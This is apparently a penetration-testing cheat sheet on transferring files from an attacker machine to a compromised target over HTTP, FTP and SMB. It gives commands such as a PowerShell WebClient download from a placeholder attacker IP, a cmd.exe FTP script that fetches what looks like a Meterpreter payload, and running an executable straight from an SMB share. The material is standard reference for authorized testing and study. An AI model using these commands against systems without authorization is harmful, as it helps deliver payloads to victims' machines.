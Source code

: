 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start

### Python

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer \[port no\]

**On target machine**:

> [http://your\_ip\_address:your\_port\_num/filename](http://your_ip_address:your_port_num/filename)

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

> powershell -c "\(new-object System.Net.WebClient\).DownloadFile\('[http://your\_ip\_address:your\_port\_num/filename','C:\Users\dest\_path\file\_name](http://your_ip_address:your_port_num/filename','C:\\Users\\dest_path\\file_name)'\)"

or use cmd.exe to trigger IE

> cd Program Files\Internet Explorer start iexplore.exe \[[http://ip](http://ip) address/file\]

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

> apt-get install python-pyftpdlib
>
> python -m pyftpdlib -p \[port\_num\]

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

> use auxiliary/server/ftp
>
> set FTPROOT /root/shells
>
> exploit

Can be kill with:

> jobs -k \[id\]

**On target machine**:

Type it into your cmd.exe

> echo open your\_ip\_address&gt;ftp\_commands.txt  
> echo anonymous&gt;&gt;ftp\_commands.txt  
> echo whatever&gt;&gt;ftp\_commands.txt  
> echo binary&gt;&gt;ftp\_commands.txt  
> echo get met8888.exe&gt;&gt;ftp\_commands.txt  
> echo bye&gt;&gt;ftp\_commands.txt  
> ftp -s:ftp\_commands.txt

## SMB

**On attacker machine**:

> `smbserver.py shareName sharePath` `(e.g. smbserver.py TMP /tmp)`

Check with smbclient

> `smbclient -L \[your ip address\] --no-pass`

**On target machine**: or check on Windows

> `net view \\\\\[attack machine ip address\]`

Copy file `copy \\[your ip address]\Sharepath .`

Or execute the file directly from SMB `\\[your ip address]\file.exe`

